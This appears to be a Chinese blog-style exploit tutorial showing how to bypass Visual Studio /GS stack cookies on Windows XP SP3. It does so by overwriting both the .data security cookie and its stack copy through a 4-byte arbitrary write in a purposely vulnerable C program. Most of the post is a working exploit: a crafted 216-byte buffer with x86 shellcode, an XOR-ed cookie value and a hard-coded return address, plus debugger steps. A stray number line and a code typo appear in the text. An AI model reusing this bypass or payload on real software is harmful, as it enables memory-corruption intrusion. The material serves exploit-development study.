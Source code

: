 ```yaml
---
layout:		post
title:		同时替换栈和.data中的Cookie突破GS
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i<0x9995)
	{
		char *buf=s+i;
		*buf+*src;
		*(buf+1)=*(src+1);
		*(buf+2)=*(src+2);
		*(buf+3)=*(src+3);
		strcpy(dest, src);
		__asm int 3
	}
}

int main()
{
	char *str=(char *)malloc(0x10000);
	test(str,0,shellcode);
}
```

项目->属性, 选择release版本, 禁用优化


### 0x01 分析

运行*.exe, OllyDbg自动附加调试

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x00.png)

单步跟进test函数

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x01.png)

可以看到程序从0x00403000取出Security Cookie, 与ebp异或后放到ebp-4

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x02.png)

继续单步到这里, 程序从ebp-4取出Security Cookie, 与ebp异或后, 调用Cookie Check

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x03.png)

再看看源码, test函数的if条件内可以有4 byte的任意写

12288   65608
### 0x02 exploit

再次附加调试, 断在main入口处, 可以看到返回分配堆块的地址0x00410048

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x04.png)

当参数i<0, if条件执行, *buf可以指向低位地址0x00403000, 0x00403000-0x00410048=-53320=0xffff2fb8

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x05.png)

再看看copy数据的起始栈地址0x0012fe94, 返回地址0x0012ff68, ebp=0x0012ff64

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x06.png)
![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x07.png)

```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90"		# ./data Security Cookie
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xf4\x6f\x82\x90"		# 0x90909090 xor ebp
"\x90\x90\x90\x90"
"\x94\xfe\x12\x00";		# shellcode入口地址

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i<0x9995)
	{
		char *buf=s+i;
		*buf=*src;
		*(buf+1)=*(src+1);
		*(buf+2)=*(src+2);
		*(buf+3)=*(src+3);
		strcpy(dest, src);
	}
}

int main()
{
	char *str=(char *)malloc(0x10000);
	//__asm int 3
	test(str,0xffff2fb8,shellcode);

	return 0;
}
```

将源码如上修改, 构造216 byte的shellcode, 1~4 byte填充"\x90\x90\x90\x90"写入.data, 
205~208 byte填充"\xf4\x6f\x82\x90", 213~216覆盖为shellcode的入口地址, pwn~

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x08.png)